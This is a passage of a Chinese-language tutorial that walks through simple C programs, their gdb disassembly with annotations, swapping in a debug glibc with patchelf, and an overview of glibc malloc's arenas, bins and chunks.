   0x00005555555551a4 <+27>:  lea    rdi,[rip+0xe5d]        # 0x555555556008
   0x00005555555551ab <+34>:  mov    eax,0x0
   0x00005555555551b0 <+39>:  call   0x555555555080 <printf@plt>

11    scanf("%f", &seconds);
   0x00005555555551b5 <+44>:  lea    rax,[rbp-0x18]
   0x00005555555551b9 <+48>:  mov    rsi,rax
   0x00005555555551bc <+51>:  lea    rdi,[rip+0xe63]        # 0x555555556026
   0x00005555555551c3 <+58>:  mov    eax,0x0
   0x00005555555551c8 <+63>:  call   0x555555555090 <__isoc99_scanf@plt>

12  
13    //initialize our arithmetic vars
14    float hours;
15    float mins;
16    float remaining_seconds;
17  
18    //make sure the hours value is a whole number that doesn't consider the decimal by using the (int) operation. 
19    //for instance, 1.2 hours will be stored in hours as 1.0 here
20    hours = (int)(seconds / 3600);
=> 0x00005555555551cd <+68>:  movss  xmm0,DWORD PTR [rbp-0x18]
   0x00005555555551d2 <+73>:  movss  xmm1,DWORD PTR [rip+0xea2]        # 0x55555555607c
   0x00005555555551da <+81>:  divss  xmm0,xmm1
   0x00005555555551de <+85>:  cvttss2si eax,xmm0
   0x00005555555551e2 <+89>:  cvtsi2ss xmm0,eax
   0x00005555555551e6 <+93>:  movss  DWORD PTR [rbp-0x14],xmm0

21    
22    //repeat for mins
23    mins = (int)((seconds - (hours * 3600))/60);
   0x00005555555551eb <+98>:  movss  xmm0,DWORD PTR [rbp-0x18]
   0x00005555555551f0 <+103>: movss  xmm2,DWORD PTR [rbp-0x14]
   0x00005555555551f5 <+108>: movss  xmm1,DWORD PTR [rip+0xe7f]        # 0x55555555607c
   0x00005555555551fd <+116>: mulss  xmm1,xmm2
   0x0000555555555201 <+120>: subss  xmm0,xmm1
   0x0000555555555205 <+124>: movss  xmm1,DWORD PTR [rip+0xe73]        # 0x555555556080
   0x000055555555520d <+132>: divss  xmm0,xmm1
   0x0000555555555211 <+136>: cvttss2si eax,xmm0
   0x0000555555555215 <+140>: cvtsi2ss xmm0,eax
   0x0000555555555219 <+144>: movss  DWORD PTR [rbp-0x10],xmm0

24    
25    //remaining_seconds is simply what's leftover
26    remaining_seconds = (seconds - (hours * 3600) - (mins * 60));
   0x000055555555521e <+149>: movss  xmm0,DWORD PTR [rbp-0x18]
   0x0000555555555223 <+154>: movss  xmm2,DWORD PTR [rbp-0x14]
   0x0000555555555228 <+159>: movss  xmm1,DWORD PTR [rip+0xe4c]        # 0x55555555607c
   0x0000555555555230 <+167>: mulss  xmm1,xmm2
   0x0000555555555234 <+171>: subss  xmm0,xmm1
   0x0000555555555238 <+175>: movss  xmm2,DWORD PTR [rbp-0x10]
   0x000055555555523d <+180>: movss  xmm1,DWORD PTR [rip+0xe3b]        # 0x555555556080
   0x0000555555555245 <+188>: mulss  xmm1,xmm2
   0x0000555555555249 <+192>: subss  xmm0,xmm1
   0x000055555555524d <+196>: movss  DWORD PTR [rbp-0xc],xmm0
```

[:books: 返回目录](#目录)

## 条件语句`if`  

```c
#include <stdio.h>

int main(void)
{
  
  //initialize our vars and get values for them
  int numerator, denominator;
  printf("Enter a numerator: ");
  scanf("%d", &numerator);
  printf("Enter a denominator: ");
  scanf("%d", &denominator);

  if (numerator % denominator == 0)
  {
  	printf("There is NOT a remainder!");
  }
  else
  {
  	printf("There is a remainder!");
  }

  return 0;
}

```
32位CPU所含有的寄存器有：  
8个32位通用寄存器：  
4个数据寄存器(EAX、EBX、ECX和EDX)  
2个变址和指针寄存器(ESI和EDI) 2个指针寄存器(ESP和EBP)  
6个段寄存器(ES、CS、SS、DS、FS和GS)  
1个指令指针寄存器(EIP)  
1个标志寄存器(EFlags)  


反汇编结果
```sh
6   
7   //initialize our vars and get values for them
8   int numerator, denominator;
9   printf("Enter a numerator: ");
   0x00005555555551a4 <+27>:  lea    rdi,[rip+0xe59]        # 0x555555556004
   0x00005555555551ab <+34>:  mov    eax,0x0
   0x00005555555551b0 <+39>:  call   0x555555555080 <printf@plt>

10    scanf("%d", &numerator);
   0x00005555555551b5 <+44>:  lea    rax,[rbp-0x10]
   0x00005555555551b9 <+48>:  mov    rsi,rax
   0x00005555555551bc <+51>:  lea    rdi,[rip+0xe55]        # 0x555555556018
   0x00005555555551c3 <+58>:  mov    eax,0x0
   0x00005555555551c8 <+63>:  call   0x555555555090 <__isoc99_scanf@plt>

11    printf("Enter a denominator: ");
   0x00005555555551cd <+68>:  lea    rdi,[rip+0xe47]        # 0x55555555601b
   0x00005555555551d4 <+75>:  mov    eax,0x0
   0x00005555555551d9 <+80>:  call   0x555555555080 <printf@plt>

12    scanf("%d", &denominator);
   0x00005555555551de <+85>:  lea    rax,[rbp-0xc]
   0x00005555555551e2 <+89>:  mov    rsi,rax
   0x00005555555551e5 <+92>:  lea    rdi,[rip+0xe2c]        # 0x555555556018
   0x00005555555551ec <+99>:  mov    eax,0x0
   0x00005555555551f1 <+104>: call   0x555555555090 <__isoc99_scanf@plt>

13  
14    if (numerator % denominator == 0)
=> 0x00005555555551f6 <+109>: mov    eax,DWORD PTR [rbp-0x10]       # numerator
   0x00005555555551f9 <+112>: mov    ecx,DWORD PTR [rbp-0xc]        # denominator
   0x00005555555551fc <+115>: cdq                                   # Convert Word to Doubleword， 结果存储到edx中
   0x00005555555551fd <+116>: idiv   ecx                            # Signed Divide， idiv src 结果存到eax中
   0x00005555555551ff <+118>: mov    eax,edx                        # 把0放到eax中, 64位操作系统有两个EAX,两个个EAX组成为RAX(64bit)
   0x0000555555555201 <+120>: test   eax,eax
   0x0000555555555203 <+122>: jne    0x555555555218 <main+143>      # 不跳转就顺序执行  

15    {
16      printf("There is NOT a remainder!");
   0x0000555555555205 <+124>: lea    rdi,[rip+0xe25]        # 0x555555556031
   0x000055555555520c <+131>: mov    eax,0x0
   0x0000555555555211 <+136>: call   0x555555555080 <printf@plt>
   0x0000555555555216 <+141>: jmp    0x555555555229 <main+160>       # 跳转到条件语句结束的地方  Jump  

17    }
18    else
19    {
20      printf("There is a remainder!");
   0x0000555555555218 <+143>: lea    rdi,[rip+0xe2c]        # 0x55555555604b    # "There is a remainder!"  地址
   0x000055555555521f <+150>: mov    eax,0x0
   0x0000555555555224 <+155>: call   0x555555555080 <printf@plt>

21    }
22  
```

字符串内容  
```sh
-exec x/32s 0x55555555604b
0x55555555604b:	"There is a remainder!"
```

[:books: 返回目录](#目录)

## main函数参数 
```c
#include <stdio.h>

int main(int argc, char *argv[])
{
  
  if(argc < 3 || argc > 3)
  {
  	printf("Usage: ./assignment9 Firstname Lastname");
  }
  else
  {
  	printf("Hello, %s %s", argv[1], argv[2]);
  }
  return 0;
}
```

反汇编输出:  
```sh
-exec disas /m
Dump of assembler code for function main:
4 {
   0x0000555555555149 <+0>: endbr64 
   0x000055555555514d <+4>: push   rbp
   0x000055555555514e <+5>: mov    rbp,rsp
   0x0000555555555151 <+8>: sub    rsp,0x10
   0x0000555555555155 <+12>:  mov    DWORD PTR [rbp-0x4],edi
   0x0000555555555158 <+15>:  mov    QWORD PTR [rbp-0x10],rsi

5   
6   if(argc < 3 || argc > 3)
=> 0x000055555555515c <+19>:  cmp    DWORD PTR [rbp-0x4],0x2
   0x0000555555555160 <+23>:  jle    0x555555555168 <main+31>
   0x0000555555555162 <+25>:  cmp    DWORD PTR [rbp-0x4],0x3
   0x0000555555555166 <+29>:  jle    0x55555555517b <main+50>

7   {
8     printf("Usage: ./assignment9 Firstname Lastname");
   0x0000555555555168 <+31>:  lea    rdi,[rip+0xe99]        # 0x555555556008
   0x000055555555516f <+38>:  mov    eax,0x0
   0x0000555555555174 <+43>:  call   0x555555555050 <printf@plt>
   0x0000555555555179 <+48>:  jmp    0x5555555551a5 <main+92>

9   }
10    else
11    {
12      printf("Hello, %s %s", argv[1], argv[2]);
   0x000055555555517b <+50>:  mov    rax,QWORD PTR [rbp-0x10]               # [rbp-0x10] 是变量argv的地址
   0x000055555555517f <+54>:  add    rax,0x10                               # 偏移16 byte，也就是argv[2]  
   0x0000555555555183 <+58>:  mov    rdx,QWORD PTR [rax]
   0x0000555555555186 <+61>:  mov    rax,QWORD PTR [rbp-0x10]
   0x000055555555518a <+65>:  add    rax,0x8                                # 偏移8 byte，也就是argv[1] 
   0x000055555555518e <+69>:  mov    rax,QWORD PTR [rax]
   0x0000555555555191 <+72>:  mov    rsi,rax
   0x0000555555555194 <+75>:  lea    rdi,[rip+0xe95]        # 0x555555556030
   0x000055555555519b <+82>:  mov    eax,0x0
   0x00005555555551a0 <+87>:  call   0x555555555050 <printf@plt>

13    }
14    return 0;
   0x00005555555551a5 <+92>:  mov    eax,0x0
```

查看`argv`数组内容的大小
```sh
-exec call sizeof(argv[0])
$6 = 8
```

[:books: 返回目录](#目录)

## 数组

```c
#include <stdio.h>

int main()
{
    int array[10] = {0,1,2,3,4,5,6,7,8,9};

    printf("The array has %d elements.\n",sizeof(array) / sizeof(array[0]));

    return 0;
}
```

输出
```sh
The array has 10 elements.
```

反汇编结果
```sh
5     int array[10] = {0,1,2,3,4,5,6,7,8,9};
   0x0000555555555184 <+27>:  mov    DWORD PTR [rbp-0x30],0x0                # [rbp-0x30] 数组的首地址
   0x000055555555518b <+34>:  mov    DWORD PTR [rbp-0x2c],0x1                # 栈存储的是值，引用时，栈存储的是地址
   0x0000555555555192 <+41>:  mov    DWORD PTR [rbp-0x28],0x2
   0x0000555555555199 <+48>:  mov    DWORD PTR [rbp-0x24],0x3
   0x00005555555551a0 <+55>:  mov    DWORD PTR [rbp-0x20],0x4
   0x00005555555551a7 <+62>:  mov    DWORD PTR [rbp-0x1c],0x5
   0x00005555555551ae <+69>:  mov    DWORD PTR [rbp-0x18],0x6
   0x00005555555551b5 <+76>:  mov    DWORD PTR [rbp-0x14],0x7
   0x00005555555551bc <+83>:  mov    DWORD PTR [rbp-0x10],0x8
   0x00005555555551c3 <+90>:  mov    DWORD PTR [rbp-0xc],0x9

6 
7     printf("The array has %d elements.\n",sizeof(array) / sizeof(array[0]));
   0x00005555555551ca <+97>:  mov    esi,0xa                                  # 结果是10  
   0x00005555555551cf <+102>: lea    rdi,[rip+0xe2e]        # 0x555555556004
   0x00005555555551d6 <+109>: mov    eax,0x0
   0x00005555555551db <+114>: call   0x555555555070 <printf@plt>
```

> 此处看到`sizeof` 不是系统函数，已经预编译出来，通过`宏定义`实现的  ``

[:books: 返回目录](#目录)

## malloc和free
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define INITIAL_CAPACITY 3

int main(void)
{
  char answer[] = "y";

  //allocate store for 3 scores
  double *scores = malloc(INITIAL_CAPACITY * sizeof(double));
  if(!scores)
  {
    fprintf(stderr, "Failed to allocate scores array.\n");
    return 1;
  }

  int capacity = INITIAL_CAPACITY;

  //initialize a variable to increase and iterate through our array to store scores
  int numScores;

  for(numScores = 0; strcmp(answer, "y") == 0; ++numScores)
  {
    //dynamically
    if(numScores == capacity)
    {
      capacity *= 2;
      scores = realloc(scores, capacity * sizeof(double));
      if(!scores)
      {
        fprintf(stderr, "Failed to reallocate scores array.\n");
        return 1;
      }
    }

    //store input in our array
    printf("Enter a test score: ");
    scanf("%lf", &scores[numScores]);

    //ask the user if they would like to continue
    printf("Would you like to continue? y/n ");
    scanf("%s", &answer);
  }

  double sum = 0;

  //start a loop that will start at 0, and then it'll iterate through our scores array until it reaches the end
  //each element in the array will be added to the sum so that we can find the average
  for(int loop = 0; loop < numScores; loop++)
  {
    sum += scores[loop];
  }

  printf("%.2f is the average.\n", sum / numScores);

  free(scores);

  return 0;
}

```


反汇编结果
```sh
11    //allocate store for 3 scores
12    double *scores = malloc(INITIAL_CAPACITY * sizeof(double));
   0x000055555555524a <+33>:  mov    edi,0x18                    # 
   0x000055555555524f <+38>:  call   0x555555555100 <malloc@plt>
   0x0000555555555254 <+43>:  mov    QWORD PTR [rbp-0x20],rax

57  
58    free(scores);
   0x00005555555553dc <+435>: mov    rax,QWORD PTR [rbp-0x20]
   0x00005555555553e0 <+439>: mov    rdi,rax
   0x00005555555553e3 <+442>: call   0x5555555550c0 <free@plt>
```

查看源码: 
```c
-exec directory /usr/src/glibc/glibc-2.31/malloc/
Source directories searched: /usr/src/glibc/glibc-2.31/malloc:$cdir:$cwd

-exec b main.c:12
-exec r
-exec b malloc
-exec b alloc_perturb

-exec l malloc.c:3021, malloc.c:3082
3021  void *
3022  __libc_malloc (size_t bytes)
3023  {
3024    mstate ar_ptr;
3025    void *victim;
3026  
3027    _Static_assert (PTRDIFF_MAX <= SIZE_MAX / 2,
3028                    "PTRDIFF_MAX is not more than half of SIZE_MAX");
3029  
3030    void *(*hook) (size_t, const void *)
3031      = atomic_forced_read (__malloc_hook);
3032    if (__builtin_expect (hook != NULL, 0))
3033      return (*hook)(bytes, RETURN_ADDRESS (0));
3034  #if USE_TCACHE
3035    /* int_free also calls request2size, be careful to not pad twice.  */
3036    size_t tbytes;
3037    if (!checked_request2size (bytes, &tbytes))
3038      {
3039        __set_errno (ENOMEM);
3040        return NULL;
3041      }
3042    size_t tc_idx = csize2tidx (tbytes);
3043  
3044    MAYBE_INIT_TCACHE ();
3045  
3046    DIAG_PUSH_NEEDS_COMMENT;
3047    if (tc_idx < mp_.tcache_bins
3048        && tcache
3049        && tcache->counts[tc_idx] > 0)
3050      {
3051        return tcache_get (tc_idx);
3052      }
3053    DIAG_POP_NEEDS_COMMENT;
3054  #endif
3055  
3056    if (SINGLE_THREAD_P)
3057      {
3058        victim = _int_malloc (&main_arena, bytes);
3059        assert (!victim || chunk_is_mmapped (mem2chunk (victim)) ||
3060           &main_arena == arena_for_chunk (mem2chunk (victim)));
3061        return victim;
3062      }
3063  
3064    arena_get (ar_ptr, bytes);
3065  
3066    victim = _int_malloc (ar_ptr, bytes);
3067    /* Retry with another arena only if we were able to find a usable arena
3068       before.  */
3069    if (!victim && ar_ptr != NULL)
3070      {
3071        LIBC_PROBE (memory_malloc_retry, 1, bytes);
3072        ar_ptr = arena_get_retry (ar_ptr, bytes);
3073        victim = _int_malloc (ar_ptr, bytes);
3074      }
3075  
3076    if (ar_ptr != NULL)
3077      __libc_lock_unlock (ar_ptr->mutex);
3078  
3079    assert (!victim || chunk_is_mmapped (mem2chunk (victim)) ||
3080            ar_ptr == arena_for_chunk (mem2chunk (victim)));
3081    return victim;
3082  }
```

可以使用`patchelf` 替换debug版本的`glibc`  
```sh
/usr/bin/gcc -g3 -O0 /root/work/c-cpp-cookbook/code/test/main.c -o /root/work/c-cpp-cookbook/code/test/main

patchelf --set-interpreter /usr/local/glibc/lib/ld-2.31.so main
patchelf --replace-needed libc.so.6 /usr/local/glibc/lib/libc-2.31.so main
```

我们通过 patchelf 修改 ELF 文件达到加载指定版本 libc。我们先用 "--set-interpreter" 这个选项来将旧的 ld.so 替换为要加载的 ld.so，然后使用 "--replace-needed" 这个选项将旧的 libc.so 替换成要加载的 libc.so。在使用 "--replace-needed" 时，第 2 个参数是程序原本的动态库的路径，可以由 ldd $目标文件 得到，第 3 个参数是新的动态库的路径，第 4 个参数为要修改文件的路径。  

查看是否修改成功
```sh
ldd main
	linux-vdso.so.1 (0x00007ffc4d3fe000)
	/usr/local/glibc/lib/libc-2.31.so (0x00007f6a8c4fe000)
	/usr/local/glibc/lib/ld-2.31.so => /lib64/ld-linux-x86-64.so.2 (0x00007f6a8c6d2000)

file main
main: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/local/glibc/lib/ld-2.31.so, for GNU/Linux 3.2.0, BuildID[sha1]=f0ff7b2471c128d72eeae9c7485eb596b48f6ed3, with debug_info, not stripped
```

使用objdump查看`objdump -x main`
```sh
之前的数据:
objdump -x main | grep -i need
  NEEDED               libc.so.6

修改后:
Dynamic Section:
  NEEDED               /usr/local/glibc/lib/libc-2.31.so
```

使用gdb调试:  
```sh
$ gdb main
(gdb) directory /usr/src/glibc/glibc-2.31/malloc
Source directories searched: /usr/src/glibc/glibc-2.31/malloc:$cdir:$cwd
(gdb) b main.c:12
Breakpoint 1 at 0x124a: file /root/work/c-cpp-cookbook/code/test/main.c, line 12.
(gdb) r
Starting program: /root/work/c-cpp-cookbook/code/test/main 

Breakpoint 1, main () at /root/work/c-cpp-cookbook/code/test/main.c:12
12	  double *scores = malloc(INITIAL_CAPACITY * sizeof(double));
(gdb) b malloc
Breakpoint 2 at 0x7ffff7e92000: malloc. (2 locations)
(gdb) c
Continuing.

Breakpoint 2, __GI___libc_malloc (bytes=24) at malloc.c:3023
3023	{
(gdb) l malloc.c:3021, malloc.c:3082
```

`__GI___libc_malloc`=>`_int_malloc (&main_arena, bytes);`=>`static Void_t* sYSMALLOc(INTERNAL_SIZE_T nb, mstate av)`=>`mmap (void *start, size_t len, int prot, int flags, int fd, off_t offset)`  

最终实现
```c
static int perturb_byte;

static void
alloc_perturb (char *p, size_t n)
{
  if (__glibc_unlikely (perturb_byte))
    memset (p, perturb_byte ^ 0xff, n);
}

static void
free_perturb (char *p, size_t n)
{
  if (__glibc_unlikely (perturb_byte))
    memset (p, perturb_byte, n);
}
```

查看malloc与free的实现  
```sh
-exec disas malloc
Dump of assembler code for function malloc:
   0x00007ffff7fec4a0 <+0>:   endbr64 
   0x00007ffff7fec4a4 <+4>:   push   rbp
   0x00007ffff7fec4a5 <+5>:   push   rbx
   0x00007ffff7fec4a6 <+6>:   mov    rbx,rdi
   0x00007ffff7fec4a9 <+9>:   sub    rsp,0x8
   0x00007ffff7fec4ad <+13>:  mov    rdx,QWORD PTR [rip+0x11c3c]        # 0x7ffff7ffe0f0 <alloc_end>
   0x00007ffff7fec4b4 <+20>:  mov    rax,QWORD PTR [rip+0x11c3d]        # 0x7ffff7ffe0f8 <alloc_ptr>
   0x00007ffff7fec4bb <+27>:  test   rdx,rdx
   0x00007ffff7fec4be <+30>:  je     0x7ffff7fec568 <malloc+200>
   0x00007ffff7fec4c4 <+36>:  add    rax,0xf
   0x00007ffff7fec4c8 <+40>:  and    rax,0xfffffffffffffff0
   0x00007ffff7fec4cc <+44>:  lea    rcx,[rax+rbx*1]
   0x00007ffff7fec4d0 <+48>:  mov    QWORD PTR [rip+0x11c21],rax        # 0x7ffff7ffe0f8 <alloc_ptr>
   0x00007ffff7fec4d7 <+55>:  cmp    rcx,rdx
   0x00007ffff7fec4da <+58>:  jae    0x7ffff7fec500 <malloc+96>
   0x00007ffff7fec4dc <+60>:  mov    rdx,rax
   0x00007ffff7fec4df <+63>:  neg    rdx
   0x00007ffff7fec4e2 <+66>:  cmp    rdx,rbx
   0x00007ffff7fec4e5 <+69>:  jbe    0x7ffff7fec500 <malloc+96>
   0x00007ffff7fec4e7 <+71>:  mov    QWORD PTR [rip+0x11bfa],rax        # 0x7ffff7ffe0e8 <alloc_last_block>
   0x00007ffff7fec4ee <+78>:  mov    QWORD PTR [rip+0x11c03],rcx        # 0x7ffff7ffe0f8 <alloc_ptr>
   0x00007ffff7fec4f5 <+85>:  add    rsp,0x8
   0x00007ffff7fec4f9 <+89>:  pop    rbx
   0x00007ffff7fec4fa <+90>:  pop    rbp
   0x00007ffff7fec4fb <+91>:  ret    
   0x00007ffff7fec4fc <+92>:  nop    DWORD PTR [rax+0x0]
   0x00007ffff7fec500 <+96>:  mov    rcx,QWORD PTR [rip+0x10131]        # 0x7ffff7ffc638 <_rtld_global_ro+24>
   0x00007ffff7fec507 <+103>: mov    rdx,rcx
   0x00007ffff7fec50a <+106>: lea    rbp,[rcx+rbx*1-0x1]
   0x00007ffff7fec50f <+111>: neg    rdx
   0x00007ffff7fec512 <+114>: and    rbp,rdx
   0x00007ffff7fec515 <+117>: jne    0x7ffff7fec520 <malloc+128>
   0x00007ffff7fec517 <+119>: test   rbx,rbx
   0x00007ffff7fec51a <+122>: jne    0x7ffff7fec5b0 <malloc+272>
   0x00007ffff7fec520 <+128>: add    rbp,rcx
   0x00007ffff7fec523 <+131>: mov    edx,0x3
   0x00007ffff7fec528 <+136>: xor    r9d,r9d
   0x00007ffff7fec52b <+139>: mov    ecx,0x22
   0x00007ffff7fec530 <+144>: mov    r8d,0xffffffff
   0x00007ffff7fec536 <+150>: mov    rsi,rbp
   0x00007ffff7fec539 <+153>: xor    edi,edi
   0x00007ffff7fec53b <+155>: call   0x7ffff7fee160 <__mmap64>
   0x00007ffff7fec540 <+160>: mov    rdx,rax
   0x00007ffff7fec543 <+163>: cmp    rax,0xffffffffffffffff
   0x00007ffff7fec547 <+167>: je     0x7ffff7fec5b0 <malloc+272>
   0x00007ffff7fec549 <+169>: cmp    QWORD PTR [rip+0x11ba0],rax        # 0x7ffff7ffe0f0 <alloc_end>
   0x00007ffff7fec550 <+176>: je     0x7ffff7fec590 <malloc+240>
   0x00007ffff7fec552 <+178>: add    rdx,rbp
   0x00007ffff7fec555 <+181>: lea    rcx,[rax+rbx*1]
   0x00007ffff7fec559 <+185>: mov    QWORD PTR [rip+0x11b90],rdx        # 0x7ffff7ffe0f0 <alloc_end>
   0x00007ffff7fec560 <+192>: jmp    0x7ffff7fec4e7 <malloc+71>
   0x00007ffff7fec562 <+194>: nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7fec568 <+200>: mov    rcx,QWORD PTR [rip+0x100c9]        # 0x7ffff7ffc638 <_rtld_global_ro+24>
   0x00007ffff7fec56f <+207>: lea    rax,[rip+0x11c1a]        # 0x7ffff7ffe190
   0x00007ffff7fec576 <+214>: lea    rdx,[rcx+rax*1-0x1]
   0x00007ffff7fec57b <+219>: neg    rcx
   0x00007ffff7fec57e <+222>: and    rdx,rcx
   0x00007ffff7fec581 <+225>: mov    QWORD PTR [rip+0x11b68],rdx        # 0x7ffff7ffe0f0 <alloc_end>
   0x00007ffff7fec588 <+232>: jmp    0x7ffff7fec4c4 <malloc+36>
   0x00007ffff7fec58d <+237>: nop    DWORD PTR [rax]
   0x00007ffff7fec590 <+240>: mov    rax,QWORD PTR [rip+0x11b61]        # 0x7ffff7ffe0f8 <alloc_ptr>
   0x00007ffff7fec597 <+247>: add    rdx,rbp
   0x00007ffff7fec59a <+250>: mov    QWORD PTR [rip+0x11b4f],rdx        # 0x7ffff7ffe0f0 <alloc_end>
   0x00007ffff7fec5a1 <+257>: lea    rcx,[rax+rbx*1]
   0x00007ffff7fec5a5 <+261>: jmp    0x7ffff7fec4e7 <malloc+71>
   0x00007ffff7fec5aa <+266>: nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7fec5b0 <+272>: add    rsp,0x8
   0x00007ffff7fec5b4 <+276>: xor    eax,eax
   0x00007ffff7fec5b6 <+278>: pop    rbx
   0x00007ffff7fec5b7 <+279>: pop    rbp
   0x00007ffff7fec5b8 <+280>: ret    
End of assembler dump.
-exec disas free
Dump of assembler code for function free:
   0x00007ffff7fec600 <+0>:   endbr64 
   0x00007ffff7fec604 <+4>:   mov    rcx,QWORD PTR [rip+0x11add]        # 0x7ffff7ffe0e8 <alloc_last_block>
   0x00007ffff7fec60b <+11>:  cmp    rcx,rdi
   0x00007ffff7fec60e <+14>:  je     0x7ffff7fec618 <free+24>
   0x00007ffff7fec610 <+16>:  ret    
   0x00007ffff7fec611 <+17>:  nop    DWORD PTR [rax+0x0]
   0x00007ffff7fec618 <+24>:  sub    rsp,0x8
   0x00007ffff7fec61c <+28>:  mov    rdx,QWORD PTR [rip+0x11ad5]        # 0x7ffff7ffe0f8 <alloc_ptr>
   0x00007ffff7fec623 <+35>:  xor    esi,esi
   0x00007ffff7fec625 <+37>:  mov    rdi,rcx
   0x00007ffff7fec628 <+40>:  sub    rdx,rcx
   0x00007ffff7fec62b <+43>:  call   0x7ffff7ff2580 <memset>
   0x00007ffff7fec630 <+48>:  mov    QWORD PTR [rip+0x11ac1],rax        # 0x7ffff7ffe0f8 <alloc_ptr>
   0x00007ffff7fec637 <+55>:  add    rsp,0x8
   0x00007ffff7fec63b <+59>:  ret    
End of assembler dump.
```

### malloc/free源码分析
[参考文章](https://zhuanlan.zhihu.com/p/163401620)  

malloc 和 free 内部依赖的是GNU Allocator, 也叫Doug Lea的Allocator: https://gee.cs.oswego.edu/dl/html/malloc.html  

> 在内存管理领域，我们一般用「堆」指代用于分配动态内存的虚拟地址空间，而用「栈」指代用于分配静态内存的虚拟地址空间。具体到虚拟内存布局（Memory Layout），堆维护在通过brk系统调用申请的「Heap」及通过mmap系统调用申请的「Memory Mapping Segment」中；而栈维护在通过汇编栈指令动态调整的「Stack」中。在 Glibc 里，「Heap」用于分配较小的内存及主线程使用的内存。 

这篇分析会主要注意Allocator是怎么管理内存的。它就像操作系统和用户中间的一层，扮演了一个内存池的角色。  

总的来说，设计理念是：  

首先在`allocator`会在堆上申请一大块连续内存区域，并且这个区域会被切分为各个部分。对于用户的请求大小进行分级，并且一层层地从`fastbin`->`unsorted bins`找到`small bins`，`large bins`。如果还找不到，就只能去`top Chunk`。`top Chunk`即可以通过`sbrk`拓展内存边界，也可以通过`mmap`来直接映射内存。  


`内存池`是一种半内存管理方法，它能帮助程序进行自动内存管理。
ptmalloc [glic库的实现] 就是采用内存池的管理方式。 ptmaloc 采用 `边界标记法` ，对内存进行分块，从而便于对内存块进行分配与回收。为了提高内存分配函数 maclloc 的高效性，ptmalloc() 会 预先向操作系统申请一块内存 供用户使用，也能产生更少的内存碎片。用户释放掉的内存并非直接返回给操作系统，而是返回给分配器，由分配器统一管理空闲内存。  

先介绍3个概念，arena，Bins，Chunk，这样在分析源代码时会对理解有帮助。  

<br>
<div align=center>
    </img>  
</div>
<br>

这张图比较好的阐述了三者之间的关系，arena 是分配在堆上的一个堆区，中间的Free List保存的是bins，它代表指向Chunk的指针数组。而bins又可以分成3段，每一段保存了不同大小的Chunk。因此这类似于我之前讲述的管理器的设计，通过数组来管理指针，每个指针又是一个链表指针。释放内存块和申请内存块是对链表的增删查改。  

malloc会对申请的大小进行评估，决定是使用sbrk还是mmap来分配堆区 (arena)，这样可以减少后续申请中向操作系统申请内存的次数。  

三者概念的详细概念解释如下：  

`arena`：通过sbrk或mmap系统调用为线程分配的堆区，按线程的类型可以分为2类：

- main arena：主线程建立的arena；

- thread arena：子线程建立的arena；

`chunk`：逻辑上划分的一小块内存，根据作用不同分为4类：

- Allocated chunk：即分配给用户且未释放的内存块；

- Free chunk：即用户已经释放的内存块；

- Top chunk

- Last Remainder chunk

`bin`：一个用以保存Free chunk链表的表头信息的指针数组，按所悬挂链表的类型可以分为4类:

- Fast bin
- Unsorted bin
- Small bin
- Large bin


[:books: 返回目录](#目录)

## srand/rand随机  

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

void main(void)
{
	//setting upper and lower range (1 = heads, 2 = tails)
	int lower, upper;
	lower = 1;
	upper = 2;
	srand(time(0)); //initializing randomization *once*
	
	//find out how many times to flip coin
	int count;
	printf("How many times would you like to flip the coin? ");
	scanf("%d", &count);

	//flip coin and track results
	int i, result; 
	int heads = 0;
	int tails = 0;
	for (i = 0; i < count; i++) 
	{
		result = (rand() % (upper - lower + 1)) + lower;
		if (result == 1) 
		{
			heads++;
		}
		else if (result == 2)
		{
			tails++;
		}
	}

	printf("After flipping the coin %d times, the results were\n%d heads\n%d tails\n", count, heads, tails);

}
```

输出
```sh
How many times would you like to flip the coin? 90
After flipping the coin 90 times, the results were
42 heads
48 tails
```

反汇编结果
```sh
7     //setting upper and lower range (1 = heads, 2 = tails)
8     int lower, upper;
9     lower = 1;
   0x0000555555555204 <+27>:  mov    DWORD PTR [rbp-0x14],0x1

10    upper = 2;
   0x000055555555520b <+34>:  mov    DWORD PTR [rbp-0x10],0x2

11    srand(time(0)); //initializing randomization *once*
   0x0000555555555212 <+41>:  mov    edi,0x0
   0x0000555555555217 <+46>:  call   0x5555555550d0 <time@plt>
   0x000055555555521c <+51>:  mov    edi,eax                       # 函数的返回值放在eax中  
   0x000055555555521e <+53>:  call   0x5555555550c0 <srand@plt>

23    {
24       result = (rand() % (upper - lower + 1)) + lower;
   0x0000555555555263 <+122>: call   0x5555555550f0 <rand@plt>
   0x0000555555555268 <+127>: mov    edx,DWORD PTR [rbp-0x10]
   0x000055555555526b <+130>: sub    edx,DWORD PTR [rbp-0x14]
   0x000055555555526e <+133>: lea    ecx,[rdx+0x1]
   0x0000555555555271 <+136>: cdq    
   0x0000555555555272 <+137>: idiv   ecx
   0x0000555555555274 <+139>: mov    eax,DWORD PTR [rbp-0x14]
   0x0000555555555277 <+142>: add    eax,edx
   0x0000555555555279 <+144>: mov    DWORD PTR [rbp-0xc],eax
```

[:books: 返回目录](#目录)

## for循环  

```c
#include <stdio.h>


int main(void) 
{
	//declare constant vars for these values
	const int games = 4;
	const int players = 5;

	//declare two-dimensional array to store scores for 5 players over 4 games;
	//declare float array to store our totals for each player later
	int scores[4][5];
	int totals[5];
	int highest_total;

	//we need an outer for loop counter and an inner for loop counter;
	int game_counter, player_counter;

	//start outer loop (4 games)
	for (game_counter = 0; game_counter < games; game_counter++)
	{
		printf("Game #%d\n", (game_counter + 1));

		//start inner loop for each player (5 players)
		for (player_counter = 0; player_counter < players; player_counter++)
		{
			printf("Enter scoring total for Player #%d: ", (player_counter + 1));

			//put the score into the scores array
			scanf("%d", &scores[game_counter][player_counter]);
		}
	}

	//create a loop to iterate through each player game by game to create their point totals
	for (player_counter = 0; player_counter < players; player_counter++)
	{
		int player_total = 0;
		for (game_counter = 0; game_counter < games; game_counter++)
		{
			//this player's total will be added to by each game total for the player in the scores array
			player_total += scores[game_counter][player_counter];
		}
		//we begin populating the totals array we initialized earlier with each player's total before moving onto the next player
		totals[player_counter] = player_total;
	}

	//now we'll create the highest total of 0 to start, and if we iterate through the totals array
	//each total in the array that's higher than the previous highest, will be come the new highest
	highest_total = 0;
	int player_id;
	for (player_counter = 0; player_counter < players; player_counter++)
	{
		if (totals[player_counter] > highest_total)
		{
